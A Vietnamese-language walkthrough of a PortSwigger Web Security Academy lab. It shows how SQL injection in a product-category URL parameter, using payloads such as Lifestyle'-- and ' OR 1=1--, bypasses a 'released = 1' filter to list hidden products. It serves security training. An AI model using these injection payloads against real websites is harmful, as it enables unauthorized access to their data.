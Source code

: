 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
### Link:https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data
![Require of Lab](/Images/requireOfLab.png)

Yêu cầu của bài lab là hiển thị tất cả các sản phẩm của bất kỳ category, kể cả đã sản phẩm được hiện thị và không được hiển thị.
Truy cập vào bài lab ta thấy đây là 1 website bán hàng, với từng danh mục như `Accessories` ,`Clothing, shoes and accessories`, `Corporate gifts` và `Lifestyle`.

![Website](/Images/Website.png)

Lựa chọn mục `Lifestyle` và thấy thanh địa chỉ hiện URL như sau:
> https://acba1f291e3a4993c0bd46c60095006e.web-security-academy.net/filter?category=Lifestyle

Đổi thành SQL như sau: 
> SELECT * FROM category WHERE category = 'Lifestyle' AND released = 1 

Nghĩa là ta sẽ lấy hết những sản phẩm thuộc danh mục là Lifestyle và được hiển thị.

![Product of Lifeslyte](/Images/productOfLifestyle.png)

Ta có thể chỉnh sửa URL thành như sau:
> https://acba1f291e3a4993c0bd46c60095006e.web-security-academy.net/filter?category=Lifestyle%27—  

Đổi thành câu truy vấn như sau: 
> SELECT * FROM category WHERE category = 'Lifestyle'--' AND released = 1

Ở trong SQL dấu -- có nghĩa là comment, do đó khi ta thêm dấu -- thì toàn bộ phần phía sau là AND released = 1 trở thành comment. 
Câu truy vấn trở thành: 
> SELECT * FROM category WHERE category = 'Lifestyle'

Nghĩa là lấy tất cả sản phẩm của danh mục Lifestyle.
Và kiểm tra kết quả hiển thị

![All product of Lifeslyte](/Images/allProductOfLifestyle.png)

Ta có thể thấy, phần sản phẩm đã xuất hiện thêm 1 sản phẩm mới là 'Balance Beams'
Tiếp theo, để hiển thị tất cả sản phẩm của bất kỳ danh mục có trong website ta thay đổi URL như sau:
> https://acbd1f821e134f99c0144063006500b4.web-security-academy.net/filter?category=Lifestyle%27+OR+1=1--

Đổi thành câu truy vấn như sau:
> SELECT * FROM category WHERE category = 'Lifestyle' OR 1=1--' AND released = 1

Câu truy vấn này sẽ trả về tất cả sản phẩm của danh mục Lifestyle hoặc khi 1 bằng 1. Mà 1 luôn luôn bằng với 1 do đó nó sẽ trả về toàn bộ sản phẩm có trong database.

![All product](/Images/allProduct.png)

Qua phép thử trên, ta thấy có thể chỉnh sửa URL để hiển thị các sản phẩm trong bất kỳ danh mục nào.

